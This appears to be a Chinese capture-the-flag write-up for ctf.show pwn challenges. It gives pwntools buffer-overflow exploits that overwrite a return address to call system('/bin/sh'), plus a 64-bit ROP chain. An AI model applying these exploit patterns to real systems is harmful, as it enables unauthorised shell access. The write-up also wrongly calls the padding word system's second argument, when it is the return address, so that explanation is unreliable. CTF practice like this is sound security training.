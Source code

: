 至此，所有必备要素全部集齐

exp：

```python
from pwn import *
sh=remote('pwn.challenge.ctf.show', 28178)
payload = b'a'*(0x12+4) + p32(0x80483A0) + p32(0x8048750)
sh.sendline(payload)
sh.interactive()
```

发现并不能直接打通

说明仍然存在问题

实际上

payload 格式：

> payload = b'a'*(0x12+4) + p32(system) + p32(0) + p32(bin_sh)

首先在溢出后填入 system 函数的地址，这个地址将覆盖程序返回地址，以便控制程序流程。
此外我们需要考虑函数调用栈的结构：system函数的第一个参数通常是一个指向要执行的命令的字符串，如 /bin/sh，需要将这个字符串的地址作为参数传递给 system 函数，system 函数的第二个参数通常是一个指向空值的指针，表示没有额外的参数。在 payload 中，可以使用任意值，比如  0 ，使用 p32() 函数将地址转换为4字节的字符串，也可以用其他任意 4 字节字符，如 'aaaa'，最后再加上 bin/sh 的地址，我们就能够利用缓冲区溢出漏洞成功调用 system("/bin/sh")，从而获取到所需的 shell。

payload 详细解释：

> b'a' * (0x12 + 4)：这部分是填充，填充的目的是使得输入的长度超过了原本的缓冲区大小，触发缓冲区溢出。
> p32(system)：这部分是 system 函数的地址，在利用缓冲区溢出漏洞时，重要的一步是覆盖返回地址，使得程序返回时跳转到 system 函数。
> p32(0)：这部分是 system 函数的第二个参数，在大多数情况下，system 函数的第二个参数应该是一个指向空值的指针，表示没有额外的参数，这里使用了0，表示一个空指针。
> p32(bin_sh)：这部分是 /bin/sh 字符串的地址，作为 system 函数的第一个参数，/bin/sh 是一个用于启动 shell 的路径，在利用缓冲区溢出漏洞时，我们可以使用这个参数来告诉 system 函数要执行的命令。

所以

payload修改后即为正确的exp

即：

```python
from pwn import *
sh=remote('pwn.challenge.ctf.show', 28178)
payload = b'a'*(0x12+4) + p32(0x80483A0) + p32(0) + p32(0x8048750)
sh.sendline(payload)
sh.interactive()
```

拿到flag





## pwn40

```python
from pwn import *
io=remote("pwn.challenge.ctf.show",28267)
payload = b'a'*(0xA+8) + p64(0x4007e3) + p64(0x400808) + p64(0x4004fe) + p64(0x400520)
io.sendline(payload)
io.interactive()
```
